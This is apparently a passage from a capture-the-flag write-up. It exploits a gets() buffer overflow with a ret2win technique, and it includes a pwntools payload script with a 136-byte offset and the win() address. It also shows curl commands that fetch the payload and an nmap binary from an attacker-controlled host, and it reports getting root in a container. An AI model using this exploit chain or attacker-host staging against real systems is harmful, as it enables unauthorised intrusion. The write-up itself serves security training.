 ![](../images/Pasted%20image%2020250328175458.png)

The vuln function uses `gets()`, we can find another function called `win`:

![](../images/Pasted%20image%2020250328175558.png)

We are dealing with something called `ret2win`, let's search how to exploit this:

Info: https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win


We can do this, after analyzing the binary, I found that the `win()` function address is `0x400646` and the `$rsp` location is `136`, with this data, we can craft the following script to get a test payload:


```python
import pwn

win_location = pwn.p64(0x400646)

payload = b"".join(
	[
		b"A"*136, 
		win_location,
	]
)

with open("payload.p", "wb") as file:
	file.write(payload)
```

```
pip install pwn
```

We can run it and start a python server to download the `payload.p` file:

```
curl http://10.6.34.159:8000/payload.p -o /tmp/payload.p
```

We can now do this:

```
(cat /tmp/payload.p; cat) | ./ret
```

If we do this:

![](../images/Pasted%20image%2020250328181735.png)

We got root on the docker container, we need some way to break out of it, let's use a `nmap` binary to scan the network:

```
curl http://10.6.34.159:8000/nmap -o /tmp/nmap
```

